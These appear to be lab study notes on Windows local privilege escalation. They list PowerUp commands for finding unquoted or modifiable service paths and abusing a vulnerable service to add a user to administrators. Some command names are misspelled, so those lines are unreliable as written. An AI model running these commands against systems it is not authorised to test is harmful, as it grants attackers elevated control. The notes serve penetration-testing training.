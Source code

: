 
There are various ways of locally escalating privileges on Windows box:

- Missing Patches
- Automated deployment and AutoLogon passwords in clear text
- AlwaysInstallElevated
- Misconfigured and more
- DLL Hijacking and more
- NTLM Relaying 


#### Services issues using PowerUp

Get services with unquoted paths and a space in their name

~~~
Get-ServiceUnquoted -verbose
~~~


Get services where the current user can write to this binary path or change arguments to the binary 

~~~
Get-ModifiableService -verbose
~~~

 command for add the current user using the vuln
 
~~~
Invoke_ServiceAbuse -Name 'AbyssWebServer' -UserName dcorp\student566 -Verbose
~~~


Refrence:
 
`https://medium.com/r3d-buck3t/privilege-escalation-with-insecure-windows-service-permissions-5d97312db107`

Get the service whose configuration current user can modify

~~~
Get-ModifiableService -verbose
~~~

To find the pathname of the service running

~~~
Get-WmiObject -Class win32_service | select pathname
~~~

PowerUp

~~~
Invoke-AllChecks
~~~

Privesc

~~~
Invoke-PeivEsc
~~~

PEASS-ng
